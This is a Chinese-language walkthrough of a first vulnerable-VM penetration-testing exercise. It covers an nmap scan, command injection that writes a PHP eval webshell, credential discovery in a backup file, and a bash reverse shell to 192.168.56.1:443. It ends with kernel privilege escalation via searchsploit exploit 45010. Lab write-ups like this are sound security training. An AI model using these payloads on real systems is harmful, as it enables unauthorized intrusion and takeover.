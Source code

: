 第一次做靶机渗透（很好玩，下次还来）

先用virtual box打开靶机 

![image-20231204163322628](./assets/image-20231204163322628.png)

然后获取了ip，开始渗透测试！

先用kali中的nmap扫一下该ip的端口

![image-20231204163337702](./assets/image-20231204163337702.png)

发现开了两个端口21的ftp和80的http

先去看80服务然后发现有一个任意命令执行漏洞

![image-20231204163437532](./assets/image-20231204163437532.png)

然后开写一句话木马（靶机渗透是不是都去写一句话木马啊)感觉靶机都是RCE

http://192.168.56.118/site/busque.php?buscar=echo '<?php eval($_POST["shell"]);' > shell.php

然后即可用蚁剑连接获取权限

![image-20231204163911055](./assets/image-20231204163911055.png)

然后在里面开始信息收集

可以在桌面发现user.txt里面有第一个flag

先在WordPress里面找到config.php

![image-20231204164023069](./assets/image-20231204164023069.png)

又找到一个.backup文件然后发现账号密码

![image-20231204164328956](./assets/image-20231204164328956.png)

可以用ftp连接（这里有一点信息泄露）

然后反弹shell

上传j.sh

```sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/443 0>&1
```

用蚁剑执行bash j.sh

这里用window的nc -lvvp 443了，貌似需要一个内网下的反弹才可以

然后

![image-20231204165735652](./assets/image-20231204165735652.png)

然后发现这个版本为uname -a Ubuntu4.4.0-31

然后kali上searchsploit ubuntu 4.4.0-31

![image-20231204165932119](./assets/image-20231204165932119.png)

然后下载下来searchsploit -m 45010

然后上传到蚁剑

windows那边然后先打开一个模拟终端

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

然后编译45010.c即可获取root权限

至此提权完成
